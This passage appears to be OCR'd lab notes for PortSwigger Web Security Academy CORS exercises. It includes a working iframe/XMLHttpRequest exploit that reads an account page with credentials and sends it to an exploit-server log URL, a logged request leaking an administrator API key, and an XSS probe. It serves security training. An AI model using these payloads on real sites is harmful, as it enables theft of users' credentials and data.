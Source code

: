 ```
    "1RNZX3Q3treQrrpFpIouYozImGd0SMmN"
  ]
}
```

**Added to Request Header:**

`Origin: null`

**In response:**

`Access-Control-Allow-Origin: null`

**Exploit Server ->**

```
Body:

    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://ac321f741f7ea952c1af00c500370089.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
    location='https://exploit-ac681f2f1fd1a9bfc17a008801770069.web-security-academy.net/log?key='+this.responseText;
    };
    </script>"></iframe>
```

`GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22Ef0XwT5SgdcjS3LDAFyogg3o60t6cMk9%22,%20%20%22sessions%22:%20[%20%20%20%20%220MpQzhjpON6KBee92JyBAl3TRr5R0LT0%22%20%20]} HTTP/1.1`

### Lab: CORS vulnerability with trusted insecure protocols

This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server.

```
GET /?productId=1&storeId=1 HTTP/1.1
Host: stock.ac851f671e93b3f7c075afe800410040.web-security-academy.net

https://stock.ac851f671e93b3f7c075afe800410040.web-security-academy.net/?productId=1&storeId=1

/?productId=<script>alert(0)</script>&storeId=1
```

There is a XSS at productId parameter.

```
GET /accountDetails HTTP/1.1
Host: ac851f671e93b3f7c075afe800410040.web-security-academy.net
Cookie: session=e8TRJ1v84JhKHPm31lkovNNOgPKz8UNf
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://ac851f671e93b3f7c075afe800410040.web-security-academy.net/my-account
```
